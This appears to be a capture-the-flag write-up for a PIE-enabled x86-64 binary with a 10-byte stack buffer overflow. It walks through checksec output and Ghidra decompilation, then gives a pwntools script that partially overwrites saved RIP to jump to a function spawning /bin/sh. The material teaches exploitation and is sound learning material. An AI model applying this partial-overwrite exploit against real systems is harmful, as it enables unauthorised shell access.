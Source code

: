 # Analysis #

We're given a binary called `main`. 

`file main` 

```
main: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60341580e9a1c8654c6e5e7f8be2f7cfa605d964, for GNU/Linux 3.2.0, not stripped
````

`checksec main`
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We have no canary but PIE is enabled. 

# decompilation #

Using ghidra, we decompile the challenge:

`main()`
```c
undefined8 main(void)

{
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  vuln();
  return 0;
}
```


`vuln()`
```c
void vuln(void)

{
  undefined local_12 [10];
  
  read(0,local_12,170);
  return;
}
```

`bad_function()`
```c
void bad_function(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

From this we learn that: 
- `vuln()` is vulnerable to a trivial stack-based buffer overflow: it reads up to 170 characters into a 10-byte buffer.
- There's a 'win' function called `bad_function()` that gives us a shell when executed.

# Exploitation Strategy #

We can use the buffer overflow to hijack control flow and point `saved rip`, the return value of the vuln() function, to the address of `bad_function()`.

However: since **PIE** is enabled, we do not know the full address of `bad_function()` in memory when the binary is running, since the base address of the application is randomized. 

We can circumvent this randomization by doing a **partial rip overwrite**. **PIE** only randomizes the first 9 nibbles, the last 3 nibbles will always be the same. 

Looking at the `main()` function, we see the following:

```asm
        001011fc e8 88 ff        CALL       vuln            
                 ff ff
        00101201 b8 00 00        MOV        EAX,0x0
                 00 00
```

When vuln() is called, it's supposed to return to address 0xNNN201, where NNN is randomized. So the value of saved RIP on the stack is 0xNNN201. 

Now if we look at the address of bad_function:

```asm
             undefined         AL:1           <RETURN>
                             bad_function                                    XREF[3]:     Entry Point(*), 00102048, 
                                                                                          00102130(*)  
        00101208 f3 0f 1e fa     ENDBR64
```

We see that bad_function starts at address 0xNNN208. Notice that this address only differs by the least significant byte. This means that we can perform a partial overwrite and overwrite just the single 0x01 byte of the saved rip with 0x08 so it points to `bad_function()` 


# Exploit #

```python
#!/usr/bin/env python3
from pwn import *

r = process("./main")

# since PIE is enabled, we partially overwrite saved rip so it points to bad_function
payload = b"A"*18 + b"\x08" 

r.send(payload)

r.interactive()
```
